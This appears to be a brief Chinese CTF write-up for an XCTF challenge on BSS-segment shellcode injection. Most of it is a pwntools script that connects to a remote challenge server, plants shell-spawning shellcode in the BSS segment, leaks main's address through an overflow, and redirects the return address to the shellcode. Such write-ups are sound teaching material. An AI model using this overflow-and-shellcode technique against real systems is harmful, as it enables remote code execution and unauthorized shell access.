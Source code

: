 ### Bss 段注入

话不多说，直接上题（攻防世界）

![](https://pic1.imgdb.cn/item/68091b0258cb8da5c8c6c031.png)

没开 NX

![](https://pic1.imgdb.cn/item/68091bc558cb8da5c8c6c058.png)

上脚本

```python
from pwn import * 

sh = remote('61.147.171.105',61275)

# 通过输入 name 向 BSS 段写入 shellcode
context.arch = 'amd64'
shellcode = asm(shellcraft.sh())

sh.sendlineafter('name :',shellcode)

# 通过输入内容溢出修改控制变量值，泄露 main 地址
num = 3281697
payload = b'A'*0x20 + p64(num)

sh.sendlineafter('input :',payload)
sh.recvuntil('you :\n0x')

main_addr = int(sh.recv(12),16)

# 再次通过输入内容溢出，将函数返回地址改为 shellcode 地址
shellcode_addr = main_addr + 0x202040 - 0xa33
payload2 = b'A'*(0x30+8) + p64(shellcode_addr)

sh.sendlineafter('input :',payload2)
sh.interactive()
```

